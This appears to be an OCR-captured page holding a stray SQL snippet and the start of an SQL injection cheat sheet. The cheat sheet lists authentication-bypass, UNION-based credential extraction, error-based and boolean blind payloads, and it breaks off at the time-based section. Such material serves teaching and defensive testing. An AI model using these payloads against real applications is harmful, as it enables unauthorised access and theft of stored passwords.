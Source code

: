 Or if you're already using app as your current DB (most likely), this is enough:

```sql
SELECT * FROM dbo.nameTable;
```

---

# **SQL Injection Techniques Summary**

## **1. General SQL Injection Techniques**

### **1.1 Basic SQL Injection**

Injections manipulate input to interfere with SQL queries:

```sql
' OR 1=1 --
```

- `'` closes a string, `OR 1=1` always evaluates to true, and `--` comments out the rest of the query.
- This can bypass authentication or display all records in a table.

### **1.2 UNION-Based SQL Injection**

Union injection combines the results of multiple `SELECT` queries:

```sql
' UNION SELECT null, username, password FROM users --
```

- Here, you try to union data from the `users` table to display usernames and passwords.

### **1.3 Error-Based SQL Injection**

Error-based injection leverages database errors to gain information about the database structure:

```sql
' AND 1=CONVERT(int, (SELECT @@version)) --
```

- This can extract sensitive information such as the database version or table structure.

### **1.4 Blind SQL Injection**

When the application doesn’t show error messages, you use boolean conditions to infer information:

```sql
' AND 1=1 --   # True, check for valid response
' AND 1=2 --   # False, no response
```

By determining when a condition is true or false, you can infer database information.

### **1.5 Time-Based Blind SQL Injection**
